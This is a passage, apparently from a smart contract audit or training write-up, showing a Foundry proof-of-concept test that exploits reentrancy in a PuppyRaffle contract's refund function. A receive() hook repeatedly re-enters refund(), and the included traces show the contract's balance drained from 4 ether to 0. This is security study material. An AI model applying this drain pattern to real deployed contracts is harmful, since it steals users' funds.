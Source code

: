 ```
        console.log("contract beforeBalance: ", address(puppyRaffle).balance / 1e18);

        // Get the player's index then call for refund, which will send ether over and trigger receive()
        uint256 playerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(playerIndex);
        
        // Print the raffle contract after refund balance with reentrancy
        console.log("contract afterBalance: ", address(puppyRaffle).balance / 1e18);
    }

    receive() external payable {
        // When we receive ether, we reenter puppyRaffle.refund() again to drain the ether.
        uint256 playerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        if(address(puppyRaffle).balance > 0){
            puppyRaffle.refund(playerIndex);
        }
    }
```
Results
```
Ran 1 test for test/PuppyRaffleTest.t.sol:PuppyRaffleTest
[PASS] testRefundReentrancy() (gas: 181939)
Logs:
+  contract beforeBalance:  4
+  contract afterBalance:  0

Traces:
  [181939] PuppyRaffleTest::testRefundReentrancy()
    ├─ [121273] PuppyRaffle::enterRaffle{value: 4000000000000000000}([0x0000000000000000000000000000000000000001, 0x0000000000000000000000000000000000000002, 0x0000000000000000000000000000000000000003, 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496])
    │   ├─ emit RaffleEnter(newPlayers: [0x0000000000000000000000000000000000000001, 0x0000000000000000000000000000000000000002, 0x0000000000000000000000000000000000000003, 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496])
    │   └─ ← [Stop] 
    ├─ [0] console::log("contract beforeBalance: ", 4) [staticcall]
    │   └─ ← [Stop] 
    ├─ [2273] PuppyRaffle::getActivePlayerIndex(PuppyRaffleTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496]) [staticcall]
    │   └─ ← [Return] 3
    ├─ [51207] PuppyRaffle::refund(3)
    │   ├─ [42021] PuppyRaffleTest::receive{value: 1000000000000000000}()
    │   │   ├─ [2273] PuppyRaffle::getActivePlayerIndex(PuppyRaffleTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496]) [staticcall]
    │   │   │   └─ ← [Return] 3
    │   │   ├─ [38279] PuppyRaffle::refund(3)
    │   │   │   ├─ [29093] PuppyRaffleTest::receive{value: 1000000000000000000}()
    │   │   │   │   ├─ [2273] PuppyRaffle::getActivePlayerIndex(PuppyRaffleTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496]) [staticcall]
    │   │   │   │   │   └─ ← [Return] 3
    │   │   │   │   ├─ [25351] PuppyRaffle::refund(3)
    │   │   │   │   │   ├─ [16165] PuppyRaffleTest::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   ├─ [2273] PuppyRaffle::getActivePlayerIndex(PuppyRaffleTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496]) [staticcall]
    │   │   │   │   │   │   │   └─ ← [Return] 3
    │   │   │   │   │   │   ├─ [12423] PuppyRaffle::refund(3)
    │   │   │   │   │   │   │   ├─ [3237] PuppyRaffleTest::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   ├─ [2273] PuppyRaffle::getActivePlayerIndex(PuppyRaffleTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496]) [staticcall]
    │   │   │   │   │   │   │   │   │   └─ ← [Return] 3
    │   │   │   │   │   │   │   │   └─ ← [Stop] 
```